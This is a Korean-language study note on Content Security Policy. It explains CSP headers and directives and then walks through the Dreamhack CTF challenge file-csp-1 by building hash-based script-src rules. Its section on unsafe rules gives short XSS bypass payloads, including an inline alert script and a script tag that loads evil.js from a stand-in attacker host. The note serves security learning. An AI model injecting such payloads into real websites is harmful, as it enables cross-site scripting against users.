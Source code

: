 🔗https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass 포스트 참고

<br>

> 💡 **콘텐츠 보안 정책(CSP)은 주로 크로스 사이트 스크립팅(XSS)과 같은 공격으로부터 보호하는** 것을 목표로 하는 브라우저 기술

<br>

### 구현

- 응답 헤더
    
    ```jsx
    Content-Security-policy: default-src 'self'; img-src 'self' allowed-website.com; style-src 'self';
    ```
    
- 메타 태그
    
    ```jsx
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
    ```

<br>

### 헤더

- `Content-Security-Policy` : CSP를 시행하여 브라우저가 **모든 위반 사항을 차단**
- `Content-Security-Policy-Report-Only` : 모니터링에 사용됨. **차단하지 않고** 위반 사항을 보고

<br>

### 리소스 정의

CSP는 액티브 및 패시브 콘텐츠 모두의 **로딩을 위한 출처를 제한**하고 **인라인 JavaScript 실행**을 제어

```jsx
default-src 'none';
img-src 'self';
script-src 'self' https://code.jquery.com;
style-src 'self';
report-uri /cspreport
font-src 'self' https://addons.cdn.mozilla.net;
frame-src 'self' https://ic.paypal.com https://paypal.com;
media-src https://videos.cdn.mozilla.net;
object-src 'none';
```

- `self` : 같은 도메인에서의 로딩 허용
- `none` : 모두 차단
- **`unsafe-eval`** : eval() 허용하지만 보안상의 이유로 권장X
- **`unsafe-inline`** : <script> 또는 <style>과 같은 인라인 리소스의 사용을 허용하지만 보안상의 이유로 권장X
- `nonce-...` : 스크립트에 직접 암호를 지정하는 방식
- host : 특정 호스트 허용
- strict-origin : 소스의 프로토콜 보안 수준이 문서와 일치하는지 확인

<br>

## **안전하지 않은 CSP Rules**


### **unsafe-inline**

```jsx
script-src https://google.com 'unsafe-inline'; 
```

⇒ `"/><script>alert(1);</script>` 로 우회 가능 

<br>

### 와일드카드

```jsx
script-src 'self' https://google.com https: data *****;
```

(1) ⇒ `"/>'><script src=https://attacker-website.com/evil.js></script>`

(2) ⇒ `"/>'><script src=data:text/javascript,alert(1337)></script>`

로 우회 가능 

등등.. 🔗 [여기](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#unsafe-csp-rules)에 정말 많은 취약한 CSP Rule에 대한 설명이 있다. 

<br>

---

### 응용 - 드림핵 file-csp-1 문제 풀이

```python
...
try:
    a = driver.execute_script('return a()');
except:
    a = 'error'
try:
    b = driver.execute_script('return b()');
except:
    b = 'error'
try:
    c = driver.execute_script('return c()');
except Exception as e:
    c = 'error'
    c = e
try:
    d = driver.execute_script('return $(document)'); #jQuery 문법 
except:
    d = 'error'

if a == 'error' and b == 'error' and c == 'c' and d != 'error':
    return FLAG
...
```

a, b == error  , c == allow , d≠error 일 때 FLAG가 출력된다.

<br>

```html
<!-- block me -->
<script>
	function a() { return 'a'; }
	document.write('a: block me!<br>');
</script>

<!-- block me -->
	<script nonce="i_am_super_random">
	function b() { return 'b'; }
	document.write('b: block me!<br>');
</script>

<!-- allow me -->
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha256-pasqAKBDmFT4eHoN2ndd6lN370kFiGUFyTiUHWhU7k8=" crossorigin="anonymous"></script>

<!-- allow me -->
<script nonce="i_am_super_random">
	function c() { return 'c'; }
	document.write('c: allow me!<br>');
	try { $(document); document.write('jquery: allow me!<br>'); } catch (e) {  }
</script>
```

<br>

우선 다 차단시키는 `script-src 'none` 를 입력하면 console에 여러 에러가 뜬다.

```python
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'none'". Either the 'unsafe-inline' keyword, a hash ('sha256-P9oV1Sc7O1Di7wEu1Q0fc9Jb2+DopNb6840c7E5XuNY='), or a nonce ('nonce-...') is required to enable inline execution.
```

```python
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'none'". Either the 'unsafe-inline' keyword, a hash ('sha256-Pl2V1+QPNtARvuHPfLjHPFJ5rA0Ky2MhOJ8KD2Y0zN8='), or a nonce ('nonce-...') is required to enable inline execution
```

```python
Refused to load the script 'https://code.jquery.com/jquery-3.4.1.slim.min.js' because it violates the following Content Security Policy directive: "script-src 'none'". Note that 'script-src-elem' was not explicitly set, so 'script-src' is used as a fallback.
```

```python
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'none'". Either the 'unsafe-inline' keyword, a hash ('sha256-l1OSKODPRVBa1/91J7WfPisrJ6WCxCRnKFzXaOkpsY4='), or a nonce ('nonce-...') is required to enable inline execution.
```

다음의 콘텐츠 보안 정책 지침을 위반하기 때문에 인라인 스크립트를 실행하는 것을 거부했습니다. . .

스크립트 로드가 거부되었습니다. . . ⇒ d는 jQuery인데 none을 할 경우 jQuery조차 차단되어 에러가 뜨는 것 같다. 

<br>

해당 메시지를 통해 a,b,c의 SHA265 해시값을 얻을 수 있다.

a - sha256-P9oV1Sc7O1Di7wEu1Q0fc9Jb2+DopNb6840c7E5XuNY=

b- sha256-Pl2V1+QPNtARvuHPfLjHPFJ5rA0Ky2MhOJ8KD2Y0zN8=

c- sha256-l1OSKODPRVBa1/91J7WfPisrJ6WCxCRnKFzXaOkpsY4=

<br>

c는 참이어야 하기 때문에 script-src 를 작성할 때 해당 c는 허용시킨다.

`script-src 'sha256-l1OSKODPRVBa1/91J7WfPisrJ6WCxCRnKFzXaOkpsY4='`


위 스크립트를 입력하면 c : allow가 되고나머지 a,b에 대한 error만 뜬다 

<br>

d또한 jQuery를 로드하기 위해 참이 되어야 함으로 `script-src 'sha256-l1OSKODPRVBa1/91J7WfPisrJ6WCxCRnKFzXaOkpsY4=' 'sha256-pasqAKBDmFT4eHoN2ndd6lN370kFiGUFyTiUHWhU7k8='` 를 입력한다. 

(src 두 개는 공백으로 구분한다.)
